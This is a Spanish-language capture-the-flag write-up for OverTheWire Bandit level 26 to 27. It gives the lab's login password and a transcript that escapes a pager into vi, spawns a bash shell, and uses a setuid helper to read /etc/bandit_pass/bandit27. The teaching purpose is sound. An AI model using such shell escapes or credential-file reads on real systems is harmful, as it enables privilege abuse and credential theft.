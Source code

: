 ## Level 26 to level 27

### Objetivos 
Good job getting a shell! Now hurry and grab the password for bandit27!

### Datos de acceso al nivel 

```
Host: bandit.labs.overthewire.org  
user: bandit26
pasword: c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
Port: 2220
```

 Conexión:
```
ssh bandit26@bandit.labs.overthewire.org -p 2220
```

### Solución 

``` bash
_ _ _ _ ___ __ | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
--More--(63%)
v
_ _ _ _ ___ __ | | | (_) | |__ \ / / | |__ __ _ _ __ __| |_| |_ ) / /_ | '_ \ / _` | '_ \ / _` | | __| / / '_ \ | |_) | (_| | | | | (_| | | |_ / /| (_) | 
"~/text.txt" [readonly] 6L, 258B 
:set shell=/bin/bash
:shell 
[No write since last change] 
bandit26@bandit:~$ bandit26@bandit:~$ ls 
bandit27-do text.txt 
bandit26@bandit:~$ ./bandit27-do id 
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26) 
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27 
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS 
bandit26@bandit:~$ 
bandit26@bandit:~$ exit 
:qa!
q
```

### Notas adicionales:


### Referencias:
